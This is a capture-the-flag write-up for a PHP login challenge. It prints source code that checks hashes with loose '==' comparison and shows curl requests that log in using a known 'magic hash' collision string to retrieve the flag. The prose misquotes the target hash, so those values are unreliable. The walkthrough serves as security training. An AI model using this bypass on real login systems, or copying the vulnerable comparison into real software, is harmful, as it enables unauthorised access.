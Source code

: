 # Very secure website(Web) - Writeup

## description

````
Some students have built their most secure website ever. Can you spot their mistake?

http://dctf1-chall-very-secure-site.westeurope.azurecontainer.io/
````

## answer

When you access the specified URL, the authentication screen for user name and password will be displayed.

```
┌──(root💀kali)-[/home/kali]
└─# curl -v http://dctf1-chall-very-secure-site.westeurope.azurecontainer.io/
*   Trying 20.82.56.43:80...
* Connected to dctf1-chall-very-secure-site.westeurope.azurecontainer.io (20.82.56.43) port 80 (#0)
> GET / HTTP/1.1
> Host: dctf1-chall-very-secure-site.westeurope.azurecontainer.io
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 15 May 2021 03:42:03 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.19
< Vary: Accept-Encoding
< Content-Length: 1614
< Content-Type: text/html; charset=UTF-8
< 
<!DOCTYPE html>
<html>
<head>
    <title>Secure website</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-eOJMYsd53ii+scO/bJGFsiCZc+5NDVN2yr8+0RDqr0Ql0h+rP48ckxlpbzKgwra6" crossorigin="anonymous">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/js/bootstrap.bundle.min.js" integrity="sha384-JEW9xMcG8R+pH31jmWH6WWP0WintQrMb4s7ZOdauHnUtxwoG2vI5DkLtS3qm9Ekf" crossorigin="anonymous"></script>
</head>
<body>
    <header>
        <nav class="navbar navbar-light bg-light">
            <div class="container navstyle">
                <a class="navbar-brand" href="#">Secure website</a>
            </div>
        </nav>
    </header>

    <div class="container pt-3 pb-2">
        <h1>
            To view the secure file, please enter the password.
        </h1>
        <form action="login.php" method="GET">
            <div class="input-group mb-3 input-sm">
                <input type="text" class="form-control" name="username" placeholder="Username" />
            </div>
            <div class="input-group mb-3">
                <input type="text" class="form-control" name="password" placeholder="Password" />
            </div>
            <div class="input-group mb-3">
                <input class="btn btn-primary" type="submit" value="Submit" />
            </div>
        </form>
        <div>
            This is a very secure website, so we will also include the <a href="source.php">source code</a>. Nobody will ever break it. It is the best.
        </div>
    </div>
</body>
* Connection #0 to host dctf1-chall-very-secure-site.westeurope.azurecontainer.io left intact
</html>
```

Check the source code.

http://dctf1-chall-very-secure-site.westeurope.azurecontainer.io/source.php

```
<?php
    if (isset($_GET['username']) and isset($_GET['password'])) {
        if (hash("tiger128,4", $_GET['username']) != "51c3f5f5d8a8830bc5d8b7ebcb5717df") {
            echo "Invalid username";
        }
        else if (hash("tiger128,4", $_GET['password']) == "0e132798983807237937411964085731") {
            $flag = fopen("flag.txt", "r") or die("Cannot open file");
            echo fread($flag, filesize("flag.txt"));
            fclose($flag);
        }
        else {
            echo "Try harder";
        }
    }
    else {
        echo "Invalid parameters";
    }
?>
```

A flag is displayed if the tiger128,4 hash value of the username is `51c3f5f5d8a8830bc5d8b7ebcb5717df` 
and the tiger128,4 hash value of the password is equal to `0e1327983807237937411964085731`.

`51c3f5f5d8a8830bc5d8b7ebcb5717df` turns out to be `admin` on Google,
`0e13278983807237937411964085731` uses PHP's loose matching, so if the hashed value starts with 0e, it is equal.

Checking the list of PHP hash collisions reveals the following.

```
LnFwjYqB:0e087005190940152635463034029558
```

If you throw a GET request to the URL in question, the flag will be displayed.

```
┌──(root💀kali)-[/home/kali]
└─# curl -v "http://dctf1-chall-very-secure-site.westeurope.azurecontainer.io/login.php?username=admin&password=LnFwjYqB"
*   Trying 20.82.56.43:80...
* Connected to dctf1-chall-very-secure-site.westeurope.azurecontainer.io (20.82.56.43) port 80 (#0)
> GET /login.php?username=admin&password=LnFwjYqB HTTP/1.1
> Host: dctf1-chall-very-secure-site.westeurope.azurecontainer.io
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 15 May 2021 04:06:18 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.19
< Content-Length: 45
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host dctf1-chall-very-secure-site.westeurope.azurecontainer.io left intact
dctf{It's_magic._I_ain't_gotta_explain_shit.} 
```


###### dctf{It's_magic._I_ain't_gotta_explain_shit.} 

